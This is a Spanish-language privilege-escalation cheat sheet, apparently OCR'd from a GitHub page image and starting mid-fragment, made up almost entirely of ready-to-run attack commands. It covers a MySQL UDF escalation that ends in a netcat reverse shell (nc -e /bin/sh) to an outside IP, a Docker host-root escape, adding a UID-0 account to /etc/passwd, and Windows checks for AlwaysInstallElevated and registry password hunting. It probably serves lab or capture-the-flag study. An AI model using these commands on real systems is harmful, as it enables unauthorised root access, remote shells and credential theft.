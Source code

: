 ```bash 
done
```
### Ver a que grupo pertenecemos
```
id
uid=1000(funny) gid=1000(funny) groups=1000(funny),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe
```

### Si mysql se esta ejecutando como root
```
locate lib_mysqludf_sys_64.so

Subir dicho archivo

1. login mysql
2. use mysql;
3. create table mario(line blob);
4. insert into mario values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));
5. select * from mario into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';
6.  select sys_exec('nc -e /bin/sh 192.168.49.235 22');
```
### Docker escape
```
docker images
docker run -it -v /:/host/ <IMAGE ID> chroot /host/ bash              
```
Si tenemos permiso para escribir enm /etc/passwd
```
crear contrasena con openssl
 openssl passwd -1 -salt ignite mario123
 luego anadir esta linea al /etc/passwd
 mario:$1$ignite$tX4GTN3beMcoVKmIGlkIC0:0:0:root:/root:/bin/bash
su mario
mario123
```
## Windows Priv esc
### Win Check List
```
[Environment]::Is64BitProcess
whoami /priv
whoami /all
net user <USUARIO>
AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
Buscar contraseñas
reg query HKLM /f pass /t REG_SZ /s
```
